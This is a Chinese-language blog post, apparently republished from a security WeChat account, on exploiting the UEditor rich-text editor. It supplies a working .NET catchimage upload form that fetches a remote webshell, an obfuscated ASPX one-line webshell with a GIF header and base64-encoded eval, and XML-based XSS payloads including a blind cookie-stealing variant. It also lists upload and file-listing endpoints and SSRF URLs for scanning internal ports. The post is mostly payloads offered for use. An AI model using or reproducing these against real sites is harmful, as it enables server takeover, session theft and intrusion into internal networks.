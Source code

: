 # Ueditor 编辑器漏洞利用

预言 [T9Sec](javascript:void(0);) *2019-10-26 14:09*

#### oxo0 前言

一直比较懒好久没更新了，刚好最近公众号居然有500多人关注了，也有不少人取消了关注。下面更新一波 ueditor编辑器漏洞的利用吧，在挖掘SRC的时候也非常有用哦。如果可以请继续关注我们哦！



#### oxo1 .net Getshell

本地上传POC：

```
<form action="http://www.xxxxx.com/ueditor/net/controller.ashx?action=catchimage"enctype="application/x-www-form-urlencoded"  method="POST">
shell addr: <input type="text" name="source[]" />
 <input type="submit" value="Submit" />
</form>
```

一句话木马：密码：hello

```
GIF89a
<script runat="server" language="JScript">
   function popup(str) {
       var q = "u";
       var w = "afe";
       var a = q + "ns" + w; var b= eval(str,a); return(b);
  }
</script>
<% popup(popup(System.Text.Encoding.GetEncoding(65001). GetString(System.Convert.FromBase64String("UmVxdWVzdC5JdGVtWyJoZWxsbyJd")))); %>
```

远程部署一个Webshell，名称为：1.gif;.aspx

```
http://127.0.0.1/1.gif;.aspx
```

浏览POC、输入远程Webshell的地址

![图片](https://tva1.sinaimg.cn/large/e6c9d24ely1h15tum387gj20qu056wew.jpg)

点击提交、运气好就可以得到一个webshell地址、得到地址还会有各种情况出现。（冰蝎的shell会报错、访问出错的时候、尝试换多几个shell看看）

![图片](https://mmbiz.qpic.cn/mmbiz_png/MZzibwD3j5oGo2ib7GtlVFjGycRQriascibmEO0ArgBicEicTQSRceTzec2G4OkTwia1UUzbKcIECkXNF8OujH2NKRfDQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

没报错、说明运气不错、成功得到webshell

```
默认路径：http://www.xxxx.com/ueditor/net/upload/image/20191022/6370735180294792151176942.aspx
```

![图片](https://tva1.sinaimg.cn/large/e6c9d24ely1h15tuntyixj20u003w3ys.jpg)

菜刀/蚁剑连之

![图片](https://tva1.sinaimg.cn/large/e6c9d24ely1h15tuqys1mj20u00973yx.jpg)

#### oxo2 Upload XSS

XML_XSS：

```
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>


盲打Cookie、src=""：
<something:script src="" xmlns:something="http://www.w3.org/1999/xhtml"></something:script>
```

Ueditor 默认支持上传 xml ：config.json可以查看支持上传的后缀

```
/ueditor/asp/config.json
/ueditor/net/config.json
/ueditor/php/config.json
/ueditor/jsp/config.json
```

上传文件路径

```
/ueditor/index.html

/ueditor/asp/controller.asp?action=uploadimage
/ueditor/asp/controller.asp?action=uploadfile

/ueditor/net/controller.ashx?action=uploadimage
/ueditor/net/controller.ashx?action=uploadfile

/ueditor/php/controller.php?action=uploadfile
/ueditor/php/controller.php?action=uploadimage

/ueditor/jsp/controller.jsp?action=uploadfile
/ueditor/jsp/controller.jsp?action=uploadimage
```

上传图片、抓取数据包

![图片](https://tva1.sinaimg.cn/large/e6c9d24ely1h15tumxzubj20u00cemyj.jpg)

修改URL、和上传的文件

![图片](https://tva1.sinaimg.cn/large/e6c9d24ely1h15tuqqutdj20u00h7q5i.jpg)

浏览触发

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

列出已经上传的文件

```
/ueditor/net/controller.ashx?action=listfile
/ueditor/net/controller.ashx?action=listimage
```



#### oxo3 SSRF

存在漏洞路径：

```
/ueditor/jsp/getRemoteImage.jsp?upfile=http://127.0.0.1/favicon.ico?.jpg

/ueditor/jsp/controller.jsp?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif

/ueditor/php/controller.php?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif
```

存在就会抓取成功、也可以抓取外网的测试

![图片](https://tva1.sinaimg.cn/large/e6c9d24ely1h15tuot46ij20u005n3z7.jpg)

端口不存在就会报错500

![图片](https://tva1.sinaimg.cn/large/e6c9d24ely1h15turjrz0j20u009idgs.jpg)

成功Burpsuite来探测端口、探测内网需要知道内网IP段

![图片](https://tva1.sinaimg.cn/large/e6c9d24ely1h15tuoe6gij20nc0ghjtv.jpg)

 



#### oxo4 参考

https://www.freebuf.com/vuls/181814.html

https://paper.seebug.org/606/
